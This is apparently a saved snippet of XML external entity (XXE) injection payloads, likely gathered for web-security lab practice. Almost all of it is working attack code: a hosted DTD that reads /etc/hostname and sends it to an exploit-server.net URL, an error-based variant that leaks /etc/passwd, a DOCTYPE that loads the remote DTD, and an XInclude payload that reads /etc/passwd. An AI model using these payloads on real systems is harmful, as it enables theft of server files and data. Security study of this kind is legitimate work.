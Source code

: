 //hosted payload for single line file

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfile SYSTEM 'https://exploit-0ae1006404b4b263c00cb47f01ae0023.exploit-server.net/?hostname=%file;'>">



//hosted payload on public server for multi line file 

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfile SYSTEM 'file:///error/%file;'>">



//xxe payload

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "https://exploit-0ae1006404b4b263c00cb47f01ae0023.exploit-server.net/exploit">
%xxe; 
%stack; 
%exfile;]>



// simple xxe injection payload for url query /?=
first check the parameter with this !ENTITY %26hack;
<hack xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></hack>